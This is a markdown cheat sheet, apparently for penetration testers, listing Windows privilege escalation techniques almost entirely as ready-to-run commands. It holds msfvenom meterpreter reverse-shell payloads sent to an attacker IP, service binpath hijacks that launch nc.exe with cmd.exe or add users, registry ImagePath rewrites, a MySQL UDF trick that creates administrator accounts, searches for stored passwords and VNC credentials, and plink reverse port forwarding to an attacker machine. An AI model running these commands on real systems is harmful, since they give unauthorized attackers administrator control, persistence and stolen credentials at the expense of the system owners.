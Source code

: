 #### Task Scheduler
```bash
tasklist /svc
tasklist /v
net start
sc query
schtasks /query /fo LIST 2>nul | findstr TaskName
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<attackerIP> LPORT=<attackerPort> -f exe -o Payload.exe
upload -f Payload.exe
net start "Task Scheduler"
time - set newtime
at 06:42 /interactive "<Path>\Payload.exe"

## https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
```

#### Unquoted Service Path
```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
icacls "C:\Program Files (x86)\Program Folder"
F = Full Control, CI = Container Inherit, OI = Object Inherit
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<attackerIp> LPORT=<attackerPort> -f exe -o Payload.exe
cd "../../../Program Files (x86)/Program Folder"
upload -f Payload.exe
shutdown /r /t 0
getuid

## Follow - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
```

#### Vulnerable Services and Files and Folder Permission

a. Insecure Service Permission -  Search for services that have a binary path (binpath) property which can be modified by non-Admin users - in that case change the binpath to execute a command of your own.
```
1. Check permission of the file - icalcs <file>
2. Use accesschk.exe - Sysinternal tool -
	a. accesschk.exe -uwcqv "Authenticated Users" * /accepteula
	b. accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
	c. accesschk.exe -qdws Users C:\Windows\
	d. accesschk.exe -ucqv <Vulnerable_Service>					#1
	e. SERVICE_ALL_ACCESS means we have full control over modifying the properties of Vulnerable Service.
3. sc qc <Vulnerable_Service>										#2
4. sc config <Vulnerable_Service> binpath= "C:\nc.exe -nv 127.0.0.1 <port> -e C:\WINDOWS\System32\cmd.exe"	#3
5. sc config "Vulnerable Service" binpath= "net user <user> <password>@ /add"									#or
6. sc config <Vulnerable_Service> obj= ".\LocalSystem" password= ""	#4	#no need to do if performed #3
7. sc qc <Vulnerable_Service>	#5
8. net start <Vulnerable_Service>	#6
9. Follow - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
```
**b. Insecure Registry Permissions**
```
1. Use tool - subinacl.exe
2. subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
3. msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<attackerIp> LPORT=<attackerPort> -f exe -o Payload.exe
4. upload -f Payload.exe
5. reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "<Path>\Payload.exe" /f
6. shutdown /r /t 0
7. getuid
8. reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

#### Add user
```powershell
net user hacker hacker /add
net localgroup administrators hacker /add
```

#### Check Firewall
```powershell
netsh firewall show state
netsh firewall show config
netsh advfirewall firewall show rule name=all
netsh advfirewall export "firewall.txt"
```

#### Running Process as Administrator
```powershell
ps aux
**MySQL**
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('<Path>/lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE '<Path>/lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
## https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

#### DLL Hijacking
```powershell
ps
search -f Vulnerable.exe
download Vulnerable.exe
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
```
#### Stored Credentials
```powershell
dir c:\*vnc.ini /s /b /c
dir c:\*ultravnc.ini /s /b /c
dir c:\ /s /b /c | fin dstr /si *vnc.ini
findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
```
#### Kernel Exploits
```powershell
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
#### Port Forwarding
```powershell
Upload plink.exe to target.
Start SSH on your attacking machine.
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

#### Metasploit - Post exploitation
```bash
post/windows/gather/enum_patches
post/multi/recon/local_exploit_suggester
https://www.hackingarticles.in/window-privilege-escalation-via-automated-script/
```